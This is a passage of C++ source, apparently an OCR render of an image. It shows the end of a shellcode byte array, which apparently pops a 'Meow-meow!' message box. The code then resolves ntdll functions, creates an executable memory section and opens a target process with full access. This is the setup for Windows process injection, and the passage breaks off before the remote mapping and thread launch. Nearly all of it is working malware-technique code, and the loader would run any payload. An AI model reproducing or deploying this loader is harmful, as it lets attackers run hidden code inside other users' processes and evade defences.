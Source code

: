 ```cpp
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
  HANDLE sh = NULL; // section handle
  PVOID lb = NULL; // local buffer
  PVOID rb = NULL; // remote buffer
  HANDLE th = NULL; // thread handle
  DWORD pid; // process ID

  pid = findMyProc(argv[1]);

  OBJECT_ATTRIBUTES oa;
  CLIENT_ID cid;
  InitializeObjectAttributes(&oa, NULL, 0, NULL, NULL);
  cid.UniqueProcess = (PVOID) pid;
  cid.UniqueThread = 0;

  // loading ntdll.dll
  HANDLE ntdll = GetModuleHandleA("ntdll");

  pNtOpenProcess myNtOpenProcess = 
  (pNtOpenProcess)GetProcAddress(
    ntdll, "NtOpenProcess");
  pNtCreateSection myNtCreateSection = 
  (pNtCreateSection)(GetProcAddress(
    ntdll, "NtCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pRtlCreateUserThread myRtlCreateUserThread  = 
  (pRtlCreateUserThread)(GetProcAddress(
    ntdll, "RtlCreateUserThread"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));

  // create a memory section
  myNtCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, (PLARGE_INTEGER)&sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

  // bind the object in the memory 
  // of our process for reading and writing
  myNtMapViewOfSection(sh, GetCurrentProcess(), 
  &lb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_READWRITE);

  // open remote proces via NT API
  HANDLE ph = NULL;
  myNtOpenProcess(&ph, PROCESS_ALL_ACCESS, &oa, &cid);

  if (!ph) {
    printf("failed to open process :(\n");
```